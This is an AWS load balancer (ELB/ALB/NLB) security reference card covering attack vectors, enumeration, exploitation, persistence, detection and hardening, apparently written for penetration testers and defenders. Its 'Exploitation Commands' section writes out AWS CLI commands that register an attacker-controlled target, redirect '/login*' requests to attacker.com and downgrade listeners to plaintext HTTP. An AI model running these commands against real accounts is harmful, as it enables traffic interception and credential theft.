

#  AWS ELB/ALB Security



> **Category**: NETWORKING

Elastic Load Balancing distributes traffic across targets. ALB (Layer 7) and NLB (Layer 4) are the entry points to your applications - misconfigurations expose internal services.

## Quick Stats

| Risk Level | Layer 7 | Layer 4 | Protection |
| --- | --- | --- | --- |
| **MEDIUM** | **ALB** | **NLB** | **WAF** |

## Service Overview

### Application Load Balancer (ALB)

Layer 7 load balancer for HTTP/HTTPS. Supports path-based routing, host-based routing, WAF integration, and authentication via Cognito/OIDC.

> Attack note: HTTP listeners expose traffic in plaintext. Routing rules can be manipulated for traffic redirection.

### Network Load Balancer (NLB)

Layer 4 load balancer for TCP/UDP/TLS. Ultra-low latency, static IPs, and PrivateLink support. Preserves source IP for targets.

> Attack note: Exposes internal services via PrivateLink. No WAF support at Layer 4.

## Security Risk Assessment

`██████░░░░` **6.0/10** (HIGH)

Load balancers are the front door to applications. HTTP listeners, weak TLS policies, and internal ALBs accidentally exposed to internet create significant attack surface.

## ⚔️ Attack Vectors

### Protocol Attacks

- HTTP listener (no TLS encryption)
- Weak SSL/TLS policies (TLS 1.0/1.1)
- SSL stripping attacks
- Missing WAF protection
- Header injection via rules

### Configuration Attacks

- Internal ALB exposed to internet
- Target group manipulation
- Listener rule redirection
- Access logs disabled (no audit trail)
- Missing deletion protection

## ⚠️ Misconfigurations

### Listener Issues

- HTTP listener without HTTPS redirect
- Outdated TLS policy (allows TLS 1.0)
- Self-signed or expired certificate
- No HTTPS enforcement
- Missing security headers

### Security Group Issues

- Internet-facing when should be internal
- Security groups allow 0.0.0.0/0
- No IP whitelist for admin endpoints
- Target security groups too open
- Cross-zone load balancing disabled

## 🔍 Enumeration

**List Load Balancers**
```bash
aws elbv2 describe-load-balancers
```

**Get Listeners**
```bash
aws elbv2 describe-listeners \\
  --load-balancer-arn <arn>
```

**List Target Groups**
```bash
aws elbv2 describe-target-groups
```

**Get Target Health**
```bash
aws elbv2 describe-target-health \\
  --target-group-arn <arn>
```

## 💉 Exploitation

### Traffic Manipulation

- MITM on HTTP traffic
- Add malicious target to group
- Create redirect rule to attacker
- Downgrade listener to HTTP
- Bypass WAF via rule manipulation

### Data Theft

- Intercept unencrypted traffic
- Access logs contain request data
- Steal session cookies via HTTP
- Credential theft from auth bypass
- API key exposure in logs

> **Key Risk:** Adding attacker-controlled target to group splits traffic - silent data exfiltration.

## 🔗 Persistence

### Load Balancer Persistence

- Add malicious target to group
- Create redirect rule to attacker
- Modify security group ingress
- Add Lambda target for exfiltration
- Create shadow ALB for MitM

### Impact

- Persistent traffic interception
- Long-term credential theft
- Ongoing data exfiltration
- Hidden backdoor access
- Survive application deployments

## 🛡️ Detection

### CloudTrail Events

- CreateLoadBalancer - new LB created
- CreateListener - listener added
- RegisterTargets - target added
- ModifyListener - config changed
- CreateRule - routing rule added

### Monitoring

- ALB access logs in S3
- WAF logs and blocked requests
- Connection/request metrics
- Target health changes
- Unusual traffic patterns

## Exploitation Commands

**Add Malicious Target**
```bash
aws elbv2 register-targets \\
  --target-group-arn <arn> \\
  --targets Id=<attacker-instance-ip>
```

**Create Redirect Rule**
```bash
aws elbv2 create-rule \\
  --listener-arn <arn> \\
  --conditions Field=path-pattern,Values='/login*' \\
  --actions Type=redirect,RedirectConfig='{
    Host=attacker.com,StatusCode=HTTP_302}'
```

**Downgrade to HTTP**
```bash
aws elbv2 modify-listener \\
  --listener-arn <arn> \\
  --protocol HTTP \\
  --port 80
```

**Get SSL Policy**
```bash
aws elbv2 describe-ssl-policies \\
  --names ELBSecurityPolicy-2016-08
```

**List Listener Rules**
```bash
aws elbv2 describe-rules \\
  --listener-arn <arn>
```

**Describe Load Balancer Attributes**
```bash
aws elbv2 describe-load-balancer-attributes \\
  --load-balancer-arn <arn>
```

## Policy Examples

### ❌ Dangerous - HTTP Only, No TLS

```json
Listener Configuration:
Protocol: HTTP (port 80)
Default Action: Forward to target group

// No HTTPS, no redirection
// Traffic in plaintext over internet
// Credentials and data exposed
```

*All traffic unencrypted - credentials, sessions, data exposed to interception*

### ✅ Secure - HTTPS with Modern TLS

```json
Listener Configuration:
Protocol: HTTPS (port 443)
SSL Policy: ELBSecurityPolicy-TLS13-1-2-2021-06
Certificate: ACM managed (auto-renew)

HTTP (80) -> Redirect to HTTPS (443)
// TLS 1.3, secure cipher suites only
```

*Enforced HTTPS with modern TLS policy and automatic redirect*

## Defense Recommendations

### 🔐 Enforce HTTPS

Use TLS 1.2+ with modern cipher suites. Redirect all HTTP to HTTPS.

```bash
aws elbv2 modify-listener \\
  --listener-arn <arn> \\
  --ssl-policy ELBSecurityPolicy-TLS13-1-2-2021-06
```

### 🛡️ Enable WAF

Protect ALB against common web attacks with AWS WAF managed rules.

```bash
aws wafv2 associate-web-acl \\
  --web-acl-arn <waf-arn> \\
  --resource-arn <alb-arn>
```

### 📝 Enable Access Logs

Log all requests to S3 for analysis and incident response.

```bash
aws elbv2 modify-load-balancer-attributes \\
  --attributes Key=access_logs.s3.enabled,Value=true
```

### 🔒 Restrict Security Groups

Limit ingress to known IPs. Never use 0.0.0.0/0 for internal ALBs.

```bash
aws ec2 authorize-security-group-ingress \\
  --group-id <sg> --protocol tcp \\
  --port 443 --cidr <office-cidr>
```

### 🚫 Enable Deletion Protection

Prevent accidental or malicious deletion of load balancers.

```bash
aws elbv2 modify-load-balancer-attributes \\
  --attributes Key=deletion_protection.enabled,Value=true
```

### 🔑 Use ALB Authentication

Integrate with Cognito or OIDC for built-in authentication.

```bash
aws elbv2 create-rule \\
  --actions Type=authenticate-cognito,...
```

---

*AWS ELB/ALB Security Card*

*Always obtain proper authorization before testing*
